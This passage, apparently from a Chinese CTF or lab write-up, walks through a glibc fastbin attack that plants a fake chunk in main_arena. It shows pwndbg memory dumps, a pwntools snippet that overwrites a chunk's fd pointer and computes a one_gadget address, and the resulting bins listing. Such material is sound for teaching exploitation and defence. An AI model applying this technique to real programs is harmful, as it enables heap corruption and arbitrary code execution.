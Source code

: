 top_chunk地址上方附近并无合适可用于size的字节。

分配该区块之后:

```
pwndbg> x/20xg 0x7ffff7dd1ae8
0x7ffff7dd1ae8 <_IO_wide_data_0+296>:	0x0000000000000000	0x00007ffff7dd0260
0x7ffff7dd1af8:	0x0000000000000000	0x00007ffff7a92e20
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00	0x0000000000000000
0x7ffff7dd1b18:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b28 <main_arena+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b38 <main_arena+24>:	0x0000000000000000	0x00005555557570a0
0x7ffff7dd1b48 <main_arena+40>:	0x0000555555757140	0x0000000000000000
0x7ffff7dd1b58 <main_arena+56>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b68 <main_arena+72>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b78 <main_arena+88>:	0x00005555557571a0	0x00005555557570a0
pwndbg> x/2xg 0x7ffff7dd1b45
0x7ffff7dd1b45 <main_arena+37>:	0x5555757140000055	0x0000000000000055
```

0x55即可帮助我们在malloc的绕过对size的验证，当然0x55是没用的, 接下来会说。

* 代码段2:

```python
addr = main_arena + 37             #  0x7ffff7dd1b45
newtop = main_arena - 0x33         #  0x7ffff7dd1aed
one = libc_base + one_offset
log.info("addr: %s" % hex(addr))
log.info("newtop: %s " % hex(newtop))
log.info("one: %s" % hex(one))

update(4, 9, p64(addr))
```

修改第3个块的fd指针，可以通过修改第5个块的内容来实现。

此时bins列表如下:

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x5555557570a0 —▸ 0x7ffff7dd1b45 (main_arena+37) ◂— 0x0
0x60: 0x555555757140 ◂— 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

```
